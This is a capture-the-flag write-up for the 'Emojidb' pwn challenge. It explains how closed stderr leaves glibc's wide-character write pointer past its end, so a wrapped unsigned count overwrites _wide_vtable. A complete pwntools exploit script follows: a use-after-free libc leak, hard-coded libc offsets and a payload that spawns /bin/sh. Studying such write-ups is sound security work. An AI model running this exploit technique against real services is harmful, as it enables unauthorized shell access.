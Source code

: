 <h1>Emojidb</h1>

I will write up on the premise that  `dword_2020E0` has a value. 

I exploited Emojidb with analyzed result below. It could be wrong

First, before calling `_IO_wdo_write` , `_IO_wfile_xsputn` copies data to `_wide_data->_IO_write_ptr (short_buf)`

After \_IO\_wdo\_write , It is supposed to rearrange write_base,write_end,.. of `_wide_data`  <strong>except fail to print data. </strong>

```C
int
_IO_wdo_write (_IO_FILE *fp, const wchar_t *data, _IO_size_t to_do)
{ 
	if (_IO_new_do_write (fp, write_base, write_ptr - write_base) == EOF)
	    /* Something went wrong.  */
	    return WEOF;
...
...
   fp->_wide_data->_IO_write_base = fp->_wide_data->_IO_write_ptr
    = fp->_wide_data->_IO_buf_base;
  fp->_wide_data->_IO_write_end = ((fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
				   ? fp->_wide_data->_IO_buf_base
				   : fp->_wide_data->_IO_buf_end);

  return to_do == 0 ? 0 : WEOF;
}
```



I said ` _IO_wfile_xsputn` copies data to `_IO_write_ptr`. 

```C
_IO_size_t
_IO_wfile_xsputn (_IO_FILE *f, const void *data, _IO_size_t n)
{
  const wchar_t *s = (const wchar_t *) data;
  _IO_size_t to_do = n;
  int must_flush = 0;
  _IO_size_t count;
  ...
  
  count = f->_wide_data->_IO_write_end - f->_wide_data->_IO_write_ptr;
  
  ...
  ...
	/* Then fill the buffer. */
  if (count > 0)
    {
      if (count > to_do)
	count = to_do;
      if (count > 20)
	{
	  f->_wide_data->_IO_write_ptr =
	    __wmempcpy (f->_wide_data->_IO_write_ptr, s, count);
	  s += count;
	}
      else
	{
	  wchar_t *p = f->_wide_data->_IO_write_ptr;
	  int i = (int) count;
	  while (--i >= 0)
	    *p++ = *s++;
	  f->_wide_data->_IO_write_ptr = p;
	}
      to_do -= count;
    }
  
```



1. `_IO_write_ptr` will be increased by size of data. 
2. `_IO_new_do_write` returns EOF because stderr is closed by run.sh
3. So \_IO\_wdo\_write doesn't rearrange `_IO_FILE` section of  `_wide_data` , but `_IO_write_ptr` is already increased.
4. After `__fwprintf_chk(stderr, 1LL, &off_1038, v4);` , \_IO\_write\_ptr is bigger than \_IO\_write\_end
5. `count` type of `_IO_wfile_xsputn` is `_IO_size_t (size_t , unsigned long)` . Next time the function is called , `count = f->_wide_data->_IO_write_end - f->_wide_data->_IO_write_ptr;` is not negative and we can pass the `if (count > 0)` condition.
6. Overwrite payload from `_wide_data->short_buf` to ` _wide_vtable`
7. Lastly If ` _wide_vtable`  was overwritten with system, Send wrong unicode data. 
8. Get shell



```python
#-*- coding: utf-8 -*-
from pwn import *
from ctypes import *
import os

lib = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
#p = process("/home/ctf/run.sh")
#p = remote("192.168.123.228",9876))
p = remote("emojidb.pwni.ng",9876)


lib.setlocale(0,"en_US.UTF-8")

go = lambda x : p.sendafter("❓",str(x))
go2 = lambda x : p.sendlineafter("❓",str(x))
goi = lambda x : p.sendlineafter("🔢❓",str(x))

def decode(array) :
    ptr = create_string_buffer(len(array)*4)
    lib.mbstowcs(ptr,array,len(array)*4)
    return ptr.value

def encode(array) :
    ptr = create_string_buffer(len(array)*4)
    lib.wcstombs(ptr,array,len(array)*4)
    return ptr.value

def new(size,content) :
    go2('🆕')
    go(size)
    p.sendline(content)

def free(idx) :
    go2('🆓')
    goi(idx)

def view(idx) :
    go2('📖')
    goi(idx)

new(0x110,"")
new(0x3,encode("A"*0x10))
free(1)

view(1)

a = p.recvuntil("🆕")[:-4]

print hexdump(a)
leak = decode(a)
if len(leak) < 3 :
    print("retry")
    quit()

libc = u64(leak+"\x00\x00") - 0x3ebca0

print 'libc : ' + hex(libc)

new(0x3,encode("B"))

free(2)
free(1)

view(1)

new(3,"A")
new(3,"A")
new(3,"A")
new(3,"A")
new(3,"A")

payload = "A"*8
payload += "C" *4 + p64(libc+0x3ec860) * 2 #mallochook

p.sendline(encode("AAAA"))
p.sendline(encode("AAAA"))
p.sendline(encode("AAAA"))

p.sendline(encode(payload))

p.sendline(encode("A"*0x3c+"/bin/sh;"+p64(libc+0x4f440)*2))

p.sendline("\xf3X\xf3")

p.interactive()
```

